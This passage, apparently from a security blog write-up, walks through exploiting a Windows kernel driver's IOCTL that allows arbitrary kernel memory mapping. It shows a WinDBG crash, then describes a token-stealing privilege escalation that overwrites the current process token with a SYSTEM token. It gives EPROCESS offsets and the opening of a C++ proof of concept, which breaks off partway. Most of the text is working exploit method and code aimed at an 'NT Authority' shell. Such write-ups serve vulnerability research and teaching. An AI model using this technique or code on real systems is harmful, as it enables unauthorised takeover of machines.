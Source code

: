 ```batch
fffff805`1e806225 cd2d            int     2Dh
```

now after pressing G In WinDBG we should get an BSOD in our VM showing that PAGE_FAULT_IN_NONPAGED_AREA
```batch
PAGE_FAULT_IN_NONPAGED_AREA (50)
Invalid system memory was referenced.  This cannot be protected by try-except.
Typically the address is just plain bad or it is pointing at freed memory.
Arguments:
Arg1: ffffa9a2a2a32320, memory referenced.
```
so at this point we know that by sending those buffer using our exploit crashing the system and we have `Arbitrary Memory Mapping` vulnerability but we just don't want to crash the system, we want to get full system `NT Authority` shell

After having discovered the vulnerable IOCTL it’s time to start the exploitation process. Assuming we can map any kernel virtual address into a user-mode address – what could a good target be? A commonly used payload for kernel exploits is token stealing shellcode. We do not really need shellcode for escalating privileges though because we can copy the token of a SYSTEM process to our current process using the mapping mechanism as a read/write primitive (data-only attack). Executing shellcode is also possible but not in scope for this post. The plan of attack is as follows:

- Get the address of a SYSTEM process and read the Token pointer
- Get the address of our current process and overwrite the Token pointer with the one from the SYSTEM process

We can use NtQuerySystemInformation to get the address of a SYSTEM process in memory without using any exploit. We are then going to use our mapping primitive to map the memory where the process is located to a user-mode address. This allows us to read the fields of the EPROCESS structure including the Token, UniqueProcessId and ActiveProcessLinks, of which we can get offsets via the debugger:

```batch
1: kd> dt _EPROCESS
ntdll!_EPROCESS
   ....
   +0x440 UniqueProcessId  : Ptr64 Void
   +0x448 ActiveProcessLinks : _LIST_ENTRY
   ...
   +0x4b8 Token            : _EX_FAST_REF
   ...
```

We are updating the PoC to map the SYSTEM process & compare that the data of the mapped area & the original virtual address are indeed the same:

```c++
#include "windows.h"
#include <stdio.h>
 
#define QWORD ULONGLONG
#define IOCTL_01 0x9C406500
 
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2
 
using fNtQuerySystemInformation = NTSTATUS(WINAPI*)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );
 
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO {
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
```